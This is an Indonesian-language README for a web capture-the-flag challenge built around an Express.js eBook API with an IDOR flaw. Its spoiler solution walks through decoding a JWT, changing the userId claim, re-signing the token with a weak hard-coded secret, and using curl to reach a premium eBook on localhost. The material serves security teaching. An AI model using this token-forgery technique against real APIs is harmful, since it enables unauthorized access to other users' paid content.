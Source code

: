 # API eBook Premium - Akses Buku Berbayar via IDOR

> Web CTF Challenge | by [ctflabs-id](https://github.com/ctflabs-id)


---

## 📖 Scenario

Anda adalah pentester yang ditugaskan mengaudit API layanan eBook premium. Sistem ini menggunakan Express.js dengan autentikasi JWT. Meskipun memerlukan login, terdapat kerentanan dimana user bisa mengakses eBook berbayar milik user lain dengan memodifikasi claim JWT.

---

## 🎯 Challenge Overview
**Target:** `http://api-ebook-premium.local:4000`<br>
**Vulnerability:** Insecure Direct Object Reference (IDOR) via JWT Claim Manipulation<br>
**Objective:** Dapatkan akses ke eBook premium dengan ID 1337 dan ekstrak flag dari kontennya.<br>
**Difficulty:** ⭐⭐⭐☆☆ (Intermediate)

---
## 🛠️ Setup Instructions

Prerequisites:

    Node.js v16+
    MongoDB
    JWT tool (optional)

Langkah-langkah:

  1. Clone repository ini
```bash
git clone https://github.com/ctflabs-id/API-eBook-Premium.git
cd API-eBook-Premium
```
  2. Install dependencies
```bash
npm install express jsonwebtoken mongoose body-parser
```
  3. Pastikan MongoDB Berjalan
  4. Start Server
```bash
node index.js
```
  5. Server akan berjalan di http://localhost:4000

---

## 💡 Hints
    🔑 Dapatkan token JWT valid terlebih dahulu via endpoint /login
    🔍 Gunakan tools seperti jwt.io untuk inspeksi/decode token
    ✏️ Modifikasi claim userId pada JWT untuk mendapatkan akses ke eBook premium
    📌 eBook target memiliki ID 1337
    🚩 Flag ada dalam content eBook premium

---

## 🎓 Tujuan Tantangan Ini
  1. Memahami kerentanan IDOR pada sistem berbasis JWT
  2. Belajar teknik manipulasi claim JWT
  3. Memahami pentingnya validasi kepemilikan resource di server
  4. Praktik eksploitasi authorization flaw pada REST API

---

## ⚠️ Disclaimer

Challenge ini dibuat hanya untuk edukasi dan simulasi keamanan siber. Jangan gunakan teknik serupa terhadap sistem yang tidak kamu miliki atau tidak diizinkan.

---
<details><summary><h2>🏆 Solusi yang Diharapkan - (Spoiler Allert)</h2></summary>

Peserta harus:

1. Langkah 1: Dapatkan Token JWT Awal&#x20;
<img src="./assets/ebook-1.png"></img>
Contoh Response:
```json
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEwMDEsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzE5NDI5NDAwLCJleHAiOjE3MTk0MzMwMDB9.4j5XW7zQl2HJYwLw7QXn2v8m6d9QkZcX6jK7vL1J3Ek"
}
```
2. Langkah 2: Decode Token di jwt.io&#x20;
<img src="./assets/ebook-2.png"></img>
Lihat payload:
```json
{
  "userId": 1001,
  "role": "user",
  "iat": 1719429400,
  "exp": 1719433000
}
```
3. Langkah 3: Modifikasi Token&#x20;
<img src="./assets/ebook-3.png"></img>
Ubah userId dari 1001 menjadi 9999 (pemilik eBook premium)
Gunakan secret key insecure_secret_123 untuk signature baru
Hasilkan token baru, contoh:
```json
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjk5OTksInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzE5NDI5NDAwLCJleHAiOjE3MTk0MzMwMDB9.1qZ3vVJkXoQ2wY8hN7Rt6cTm1x9fKsLp5UqSdW0bO4Y
```

4. Langkah 4: Akses eBook Premium
<img src="./assets/ebook-4.png"></img>
Gunakan token yang sudah dimodifikasi:
```bash
curl http://localhost:4000/api/ebooks/1337 \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjk5OTksInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzE5NDI5NDAwLCJleHAiOjE3MTk0MzMwMDB9.1qZ3vVJkXoQ2wY8hN7Rt6cTm1x9fKsLp5UqSdW0bO4Y"
```
Response Sukses:
```json
{
  "title": "eBook Premium",
  "content": "CTF_FLAG{JWT_IDOR_Pr3v3nt1on_1s_Key}",
  "price": 50000
}
```
</details>

---

## 🤝 Kontribusi Pull request & issue welcome via: ctflabs-id/EBook-Premium-CTF
## 🧠 Maintained by:
```
GitHub: @ctflabs-id
Website: ctflabsid.my.id
```



